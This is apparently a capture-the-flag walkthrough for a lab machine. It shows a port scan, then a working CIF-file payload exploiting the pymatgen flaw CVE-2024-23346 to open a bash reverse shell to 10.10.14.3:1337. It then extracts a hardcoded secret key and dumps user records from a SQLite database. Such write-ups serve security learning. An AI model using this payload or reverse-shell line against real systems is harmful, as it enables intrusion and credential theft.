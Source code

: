 ```
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
```

## Port 80
>![[Pasted image 20250128192252.png]]

 
---

# Vulnerabilities

We are able to register for an account to the portal and from there we can upload a CIF document.
>![[Pasted image 20250128202811.png]]

Searching for information on Crystallographic Information File vulnerabilities. We run across an article about a Critical Security Flaw in Pymatgen Library(CVE-2024-23346). 

We can use the example CIF file and input the vulnerable code to the bottom of it to gain a shell as the "app" user.
```
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.3/1337 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
>![[Pasted image 20250128204009.png]]

After listing all the files in the "app" user home directory we see an app.py file. This file has a 'SECRET_KEY' hardcoded for a sqlite database in it.
`MyS3cretCh3mistry4PP`
>![[Pasted image 20250128204801.png]]

There is a database.db file located in the instances folder.
Using sqlite you can open the database to view it's contents.
```
#Open the database
sqlite3 database.db

#View the tables
.tables

#Extract data from the user table.
select * from user;
```
We see a few users that we are interested in for access, admin and rosa(this user has console access as shown in /etc/passwd)
>![[Pasted image 20250128210424.png]]
